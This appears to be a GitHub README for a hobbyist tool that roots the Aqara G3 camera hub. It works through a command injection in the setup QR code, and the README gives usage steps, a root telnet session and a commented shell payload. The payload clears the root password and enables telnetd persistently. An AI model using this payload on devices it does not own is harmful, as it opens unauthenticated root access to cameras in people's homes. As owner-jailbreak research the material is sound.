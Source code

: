 # aQRootG3 #
### Enable telnet via qrcode command injection for Aqara G3 hub ###

<p align="center" width="100%">
    <img src="https://user-images.githubusercontent.com/1288525/146663111-146c18cc-f337-49a9-99b9-0e8f93e97e3a.jpg"> 
</p>


Intro
---------------
I was disappointed to see the Aqara G3 camera did not ship with telnet enabled so I managed to grab a copy of a firmware update for some good 'ol static analysis which confirmed none of the previous methods were going to work.

Whilst going through  "ha_master" I did see that one of the variables passed in by the setup qrcode is thrown through sprintf as "nslookup %s" and subsequently passed to popen (yay).

Getting telnet was fairly trivial, getting persistent telnet in one shot within the 132 char sprintf buffer on a readonly filesystem was a little more challenging.

Thankfully another qrcode variable (b aka bind_key) has a larger buffer so we store some data in this which can later be used by the main payload.


Usage
---------------
```bash
usage: aQRootG3.py [-h] ssid pwd [filename]

aQRootG3 v0.2
Enable telnet via qrcode command injection for Aqara G3 hub

positional arguments:
  ssid        Wireless SSID
  pwd         Wireless Password
  filename    (Optional) Save QR Code as image

optional arguments:
  -h, --help  show this help message and exit
```


Steps
---------------
1. Reset the camera by pressing the button 10 times quickly.
2. When prompted (albeit probably in chinese) scan the QR code you've generated
3. This will give a failed message (due to invalid bind_key)
4. Add device to Aqara home as normal.
5. Enjoy.

```bash
$ telnet x.x.x.x
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.

Camera-Hub-G3-BEEF login: root
Password:
1 ulimit=256
~ # uname -a
Linux Camera-Hub-G3-BEEF 4.9.84 #67 SMP PREEMPT Mon Sep 6 17:51:23 CST 2021 armv7l GNU/Linux
```


Payload Explanation
---------------
```python
payload=[
    'y=/data/scripts/post_init.sh',         
    '"fw_man"ager.sh -t -f',                        # Create default /data/scripts/post_init.sh
    'echo -e `agetprop persist.app.bind_key`>$y',   # Write post_init[] content below to post_init.sh
    'tail -n2 $y|sh'                                # Clear $USER password, enable tty and start telnetd
],
post_init = [
    '#!/bin/sh',
    'fw_manager.sh -r',                             # Start firmware as normal
    'passwd -d $USER',                              # Clear $USER password
    'fw_manager.sh -t -k'                           # Enable tty and start telnetd
],
}
```

Tested Versions
---------------

| Firmware Version | Status |
| --------------- | -- |
| 3.2.7_0019.0004 | :white_check_mark: |
| 3.3.2_0003.0004  | :white_check_mark: |
| 3.3.4_0007.0004  | :white_check_mark: |


